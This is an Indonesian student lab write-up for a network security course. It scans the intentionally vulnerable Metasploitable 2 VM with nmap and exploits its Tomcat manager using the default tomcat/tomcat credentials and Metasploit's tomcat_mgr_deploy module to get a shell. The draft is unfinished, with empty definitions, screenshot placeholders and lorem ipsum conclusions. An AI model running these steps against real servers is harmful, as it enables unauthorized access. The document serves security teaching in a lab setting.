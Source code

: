 
# **Tugas 5 PKSJ - Analisa Exploit dengan Metasploitable, Metasploit dan Nmap**


## Pendahuluan

Tugas ini dibuat untuk menyelesaikan Tugas 5 yaitu "Analisa Exploit dengan Metasploitable, Metasploit Nmap" pada matakuliah Perancangan Keamanan & Sistem Jaringan (PKSJ) Semester Ganjil 2016/2017, Teknik Informatika ITS, Surabaya
 
| NRP         | Nama                     |
|-------------|--------------------------|
| 5113100050  | Freddy Hermawan Y        |
| 5113100109  | Daniel Fablius           |
| 5113100113  | Muhamad Luthfie La Roeha |

## Dasar Teori

**1. Metasploit**

**Metasploit** adalah  

 **2. Metasploitable**

**Metasploitable**  adalah 

##Penggunaan Metasploit

Untuk penggunaan metasploit, pada Kali Linux sudah terinstall secara bawaan, dan untuk mengaksesnya dapat menggunakan perintah `msfconsole`  
(FREDDY screenshot)

## Intelligence Gathering 

1. Untuk melihat vulnerable pada Metasploitable yang telah diinstal, kita dapat melihatnya dengan cara menampilkan port mana saja yang terbuka di Metasploitable. Ketikkan command berikut `nmap -O <IP Metasploitable>`  
FREDDY Screenshot
![Screenshot nmap]()

2. Berdasarkan informasi yang didapat ([disini](http://colesec.inventedtheinternet.com/hacking-apache-tomcat/)), Metasploitable 2 telah terinstall Apache Tomcat yang berjalan pada port **8180**.

3. Untuk mengecek salah satu vulnerability tomcat, coba akses <IP Metasploitable>:8180/manager/html. Lalu masuk dengan credential :
```
username : tomcat
password : tomcat
```

4. Jika berhasil, akan masuk ke halaman Application Deployer. Pada halaman ini, kita dapat membuat rute baru dengan mengupload file WAR (Web ARchive). 

5. Pada titik ini, kita dapat membuat backdoor/payload yang dapat diupload dengan jenis .WAR. Sehingga kita dapat masuk ke shell Komputer target. 

## Exploit Apache Tomcat Manager - Application Deployer

Metasploit dapat membuat Payload dan membuka akses ke komputer yang terexploit secara otomatis. Caranya :

1. Buka console Metasploit pada komputer Attacker, dengan cara mengetik `msfconsole`

2. Untuk menyerang sistem menggunakan vulnerability **Tomcat Manager - Application Deployer**, gunakan exploit berikut :
```
msf> use exploit/multi/http/tomcat_mgr_deploy
```

3. Set `RHOST` dengan IP yang akan diexploit, dalam kasus ini, IP adalah IP milik Metasploitable. Set RHOST dengan cara :
```
msf exploit(tomcat_mgr_deploy) > set RHOST 192.168.100.20
```

4. Set `RPORT` dengan port yang vulnerable untuk diserang, dalam kasus ini port yang dipakai adalah port **8180**. Set RPORT dengan cara :
```
msf exploit(tomcat_mgr_deploy) > set RPORT 8180
```

5. Set `HttpUsername` dan `HttpPassword` agar Metasploit dapat masuk ke website tomcat. Set dengan cara :
```
msf exploit(tomcat_mgr_deploy) > set HttpUsername tomcat
msf exploit(tomcat_mgr_deploy) > set HttpPassword tomcat
```

6. Set `PATH` yang vulnerable untuk diserang, yaitu /manager/html. Set dengan cara :
```
msf exploit(tomcat_mgr_deploy) > set PATH /manager/html
```

7. Ketik command `exploit` untuk menjalankan exploit menggunakan setting yang telah dilakukan sebelumnya.
```
msf exploit(tomcat_mgr_deploy) > exploit
```

8. Jika berhasil, akan tampil hal berikut :
FREDDY Screenshot hasil ketika berhasil

9. Untuk memastikan bahwa kita berhasil masuk ke dalam Komputer target, lakukan command berikut :
FREDDY Screenshot contoh command ls atau sejenisnya

## Kesimpulan dan Saran

### Kesimpulan
1. Lorem Ipsum
2. Lorem Ipsum

### Saran
**Jangan menggunakan settingan user default Tomcat pada sistem yang dapat melakukan upload file** 

